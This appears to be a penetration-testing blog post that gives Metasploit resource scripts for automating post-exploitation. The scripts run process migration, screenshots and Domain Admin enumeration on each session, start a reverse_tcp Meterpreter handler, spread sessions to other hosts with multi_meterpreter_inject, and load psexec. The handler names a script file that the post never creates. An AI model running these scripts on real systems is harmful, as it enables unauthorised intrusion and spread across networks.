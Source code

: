 ```yaml
---
layout: post
title: Hit the Ground Running- Automating Metasploit
summary: Use resource scripts to run common Metasploit tasks quickly
tags:
- metasploit
commentIssueId: 1
---
```

     
There are a number of commands that tend to get run on every session on a target I get in Metasploit. Using resource files, these commands can be automated to dump as much information as possible, as quickly as possible. This can be combined with an MSFConsole autostart script to automate the starting of handlers and pre-fill options for post modules that don't need to be run on every session.

First we make a new file for the autorunscript to be run on each new session:
`nano /infogather`
     
and paste the following in the file:

```plaintext
run migrate -f
screenshot -v false
ps
ipconfig
sysinfo
run post/windows/gather/enum_shares
run post/windows/gather/enum_domain_group_users  group="Domain Admins"
run post/windows/gather/checkvm
screenshot -v false
background
```
     
Each command will be run sequentially and then background the session. Any command that can be run through a meterpreter shell can be used, with options added (for example, screenshot using the -v false option). Running the above commands will save screenshots to the default directory, `/root/*RANDOMNAME*.jpeg` and will save the output from the other gather post modules to the `/root/.msf4/loot` directory.

It should be noted that running a large number of commands could cause sessions to drop. If you find that being the case, try removing some of the commands you don’t need output from on every session. Alternatively, this could be run up as a resource file by calling it with:
     
`resource /infogather`

Now we're all set to catch some shells. Let's make that easier by having a handler autostart, get logging all set up, and get the `post/windows/manage/multi_meterpreter_inject module` ready to spread our session to some other machines for posterity.
     
     
Let's create the `/root/.msf4/msfconsole.rc` file that MSFConsole will automatically run with 

`nano /root/.msf4/msfconsole.rc`
     
and paste the following in the file:

```plaintext
spool /mylog.log
set consolelogging true
set loglevel 5
set sessionlogging true
set timestampoutput true
set prompt %T S:%S J:%J
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost X.X.X.X
set lport YYY
set exitonsession false
set enablestageencoding true
set autorunscript multi_console_command.rb -rc /autosploit
exploit -j -z
use post/windows/manage/multi_meterpreter_inject
set iplist X.X.X.X;X.X.X.X
set lport YYY
jobs
```
     
Similar to the autosploit resource file, any command normally entered into the msf prompt can be used-- enabling you to set up any post module you want. Don't forget to replace the Xs above with the proper IP data. If you're using the `multi_meterpreter_inject`, you can add multiple addresses in a semicolon-separated list to spread the meterpreter session to numerous boxes for penetration.

Finally, we’ll create a resource file to kill and restart a listener-- good for when you’re on a social engineering call and the just isn’t quite coming in. 

`nano /bounce`
     
then paste the following into the file:

```plaintext
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost X.X.X.X
set lport YYY
set exitonsession false
set enablestageencoding true
set autorunscript migrate -f
jobs -K
exploit -j -z
use exploit/windows/smb/psexec
```
     
Now we can call the resource file with the following command from the msf prompt:

`resource /bounce`
  